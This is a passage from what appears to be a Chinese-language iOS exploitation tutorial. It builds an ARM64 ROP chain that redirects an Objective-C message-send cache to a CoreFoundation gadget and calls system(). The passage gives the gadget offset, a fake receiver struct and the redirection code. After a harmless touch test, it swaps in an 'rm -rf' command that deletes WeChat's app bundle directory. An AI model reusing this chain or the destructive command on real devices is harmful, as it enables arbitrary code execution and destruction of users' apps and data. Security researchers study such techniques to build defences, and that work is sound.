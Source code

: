 `dyld_shared_cache`文件一般保存在`/System/Library/Caches/com.apple.dyld/`这个目录下。我们下载下来以后就可以用ROPgadget这个工具来搜索gadget了。我们先实现一个简单的ROP，用`system()`函数执行”`touch /tmp/IceAndFire`”。因为我们`x0`是我们控制的`fake_receiver`的地址，因此我们可以搜索利用`x0`来控制其他寄存器的gadgets。比如下面这条：

```
ldr x1, [x0, #0x98] ; ldr x0, [x0, #0x70] ; cbz x1, #0xdcf9c ; br x1

```

随后我们可以构造一个假的结构体，然后给对应的寄存器赋值：

```
struct fake_receiver_t
{
    uint64_t fake_objc_class_ptr;
    uint8_t pad1[0x70-0x8];
    uint64_t x0;
    uint8_t pad2[0x98-0x70-0x8];
    uint64_t x1;
    char cmd[1024];
}fake_receiver;

fake_receiver.x0=(uint64_t)&fake_receiver.cmd;
fake_receiver.x1=(void *)dlsym(RTLD_DEFAULT, "system");
NSLog(@"system_address = %p", (void*)fake_receiver.x1);
strcpy(fake_receiver.cmd, "touch /tmp/IceAndFire");

```

最后我们将`cached_function`的值指向我们gagdet的地址就能控制程序执行`system()`指令了：

```
uint8_t* CoreFoundation_base = find_library_load_address("CoreFoundation");
NSLog(@"CoreFoundationbase address = %p", (void*)CoreFoundation_base);

//0x00000000000dcf7c  ldr x1, [x0, #0x98] ; ldr x0, [x0, #0x70] ; cbz x1, #0xdcf9c ; br x1
fake_cache_bucket.cached_function = (void*)CoreFoundation_base + 0x00000000000dcf7c;
NSLog(@"fake_cache_bucket.cached_function = %p", (void*)fake_cache_bucket.cached_function);

```

编译完后，我们将hello这个程序传输到iOS上测试一下：

![p7](http://drops.javaweb.org/uploads/images/25275fe00c2f10a1cba44ed06b638543acc4cd80.jpg)

发现`/tmp`目录下已经成功的创建了IceAndFire这个文件了。

有人觉得只是在tmp目录下touch一个文件并不过瘾，那么我们就尝试一下删除其他应用吧。应用的运行文件都保存在”`/var/mobile/Containers/Bundle/Application/`”目录下，比如微信的运行程序就在”`/var/mobile/Containers/Bundle/Application/ED6F728B-CC15-466B-942B-FBC4C534FF95/WeChat.app/WeChat`”下（注意ED6F728B-CC15-466B-942B-FBC4C534FF95这个值是在app安装时随机分配的）。于是我们将cmd指令换成：

```
strcpy(fake_receiver.cmd, "rm -rf /var/mobile/Containers/Bundle/Application/ED6F728B-CC15-466B-942B-FBC4C534FF95/");

```
